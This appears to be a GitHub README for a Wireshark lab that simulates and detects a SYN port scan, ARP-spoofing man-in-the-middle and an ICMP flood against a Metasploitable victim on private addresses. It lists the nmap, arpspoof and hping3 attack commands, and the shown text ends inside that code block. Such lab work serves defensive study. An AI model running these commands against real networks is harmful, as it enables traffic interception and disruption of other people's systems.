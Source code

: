 # Network Monitoring & Attack Detection Lab

## Overview
This project demonstrates how to monitor and detect common network-based attacks using **Wireshark** in a controlled lab environment.  
Attacks simulated:
- **Port Scan (SYN scan)**
- **ARP Spoofing (MITM)**
- **DoS-like traffic (ICMP/SYN flood)**

## Lab Setup
- **Kali Linux (192.168.100.56)** → Attacker
- **Parrot Security (192.168.100.57)** → Monitor (Wireshark)
- **Metasploitable2 (192.168.100.50)** → Victim
- **pfSense (192.168.100.10)** → Gateway/firewall

## Commands Used
```bash
# Port Scan
sudo nmap -sS -Pn -p1-500 192.168.100.50

# ARP Spoofing
sudo sysctl -w net.ipv4.ip_forward=1
sudo arpspoof -i eth0 -t 192.168.100.50 192.168.100.10
sudo arpspoof -i eth0 -t 192.168.100.10 192.168.100.50

# DoS-like (ICMP flood)
sudo hping3 --icmp --count 1000 192.168.100.50
